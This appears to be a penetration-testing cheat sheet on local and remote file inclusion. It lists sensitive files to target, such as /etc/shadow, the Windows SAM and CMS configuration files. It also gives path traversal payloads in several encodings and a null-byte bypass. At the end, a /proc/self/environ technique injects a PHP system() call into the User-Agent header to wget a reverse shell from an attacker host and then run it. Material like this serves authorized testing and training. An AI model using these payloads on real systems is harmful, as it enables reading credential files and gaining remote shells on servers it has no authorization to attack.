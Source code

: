 # Local and remote file inclusion

Local file inclusion \(LFI\) vulnerabilities allow an attacker to read local files on the web server using malicious web requests. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution \(RCE\). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user \(e.g. www-data\).

## Interesting files

If an LFI vulnerability exists, look for these files:

### Linux

Linux system files:

```text
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```

#### Log files

Potentially interesting logfiles:

```text
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```

#### CMS configuration files

Content management system configuration files:

```text
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

### Windows

Files that may exist on Windows systems:

```text
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows.

```text
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

## Techniques

### Basic

Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:

```text
http://host/?page=../../../../../etc/passwd
```

Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

#### wget

Sometimes browsers mess around with basic directory traversal sequences, but `wget` may work:

```text
wget http://[host]/wp-content/uploads/page.php?url=../../../../../../../var/www/html/wp-config.php
```

### Nesting traversal sequences

If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```text
....//

....\/

..../\

....\\
```

### URL-encoded

Encoding all the slashes and dots in your path traversal could bypass input filters:

```text
dot             %2e
forward slash   %2f
backslash       %5c
```

Example:

```text
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded

Another encoding method:

```text
dot             %252e
forward slash   %252f
backslash       %255c
```

Example:

```text
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Overlong UTF-8 encoding

You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```text
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator \(`%00` or `0x00` in hex\) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:

```text
$file = $_GET['page'];
require_once("/var/www/$file.php");
```

Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:

```text
http://website/page=../../../etc/passwd%00
```

### proc/self/environ method

If you're able to request `/proc/self/environ` using LFI, you might be able to get a shell by downloading a remote file with reverse shellcode and run it on the system \(e.g. [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)\). You'll need to intercept the `/proc/self/environ` request and replace HTTP request header `User Agent` with the following:

```text
<?system('wget http://[attack host]]/reverseshell.txt -O shell.php');?>
```

Then execute the shell by calling the URL where it was uploaded:

```text
http://[attack host]/folder/shell.php
```

## Further reading

* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
* [LFI to RCE with Perl script](https://www.exploit-db.com/papers/12992/)

